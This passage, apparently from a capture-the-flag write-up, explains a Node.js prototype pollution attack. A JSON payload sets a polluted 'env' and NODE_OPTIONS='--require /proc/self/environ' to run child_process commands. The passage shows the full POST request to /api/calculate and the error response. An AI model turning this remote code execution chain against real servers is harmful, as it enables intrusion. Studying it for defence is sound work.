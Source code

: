 * `constructor`: This is the constructor property of the object being created. In this case, we're using it to create a new object with a poisoned prototype.
    * `prototype`: This is the prototype property of the object being created. We're using it to add properties to the object's prototype that can be used to exploit prototype pollution vulnerabilities.
        * `env`: This is an environment variable that we're setting for the current process.
            * `"payload": "console.log(require(\"child_process\").execSync(\"ls\").toString())//"`: This is the actual payload that will be executed. It uses the `child_process module` to execute the a command in this case `ls`. The double slashes at the end are used to comment any code coming after this injection.
    * `"NODE_OPTIONS": "--require /proc/self/environ"`: This is a flag that is passed to the Node.js runtime environment to require the `/proc/self/environ` file. This file contains environment variables for the current process, including any variables that may be used by the Node.js process.

This payload would be converted to this javascript code.
```javascript
Object.constructor.prototype.env = {
    "payload": "console.log(require(\"child_process\").execSync(\"ls\").toString())//"
};
Object.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ";
```


### Getting the directory 
```javascript
POST /api/calculate HTTP/1.1
Host: 144.126.236.38:32064
User-Agent: XXX
Content-Type: application/json

{
  "constructor": {
    "prototype": {
      "env": {
        "payload": "console.log(require(\"child_process\").execSync(\"ls\").toString())//",
        "NODE_OPTIONS": "--require /proc/self/environ"
      }
    }
  }
}
```

#### Response error
On our request we are getting an error, but we can see the result by checking our sink `/debug/version/`.

```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>RangeError: Maximum call stack size exceeded<br> &nbsp; &nbsp;at Object.merge (/app/helpers/ObjectHelper.js:10:10)<br> &nbsp; &nbsp;at Object.merge (/app/helpers/ObjectHelper.js:14:26)<br> &nbsp; &nbsp;at Object.merge (/app/helpers/ObjectHelper.js:14:26)<br> &nbsp; &nbsp;at Object.merge (/app/helpers/ObjectHelper.js:14:26)</pre>
</body>
</html>
```
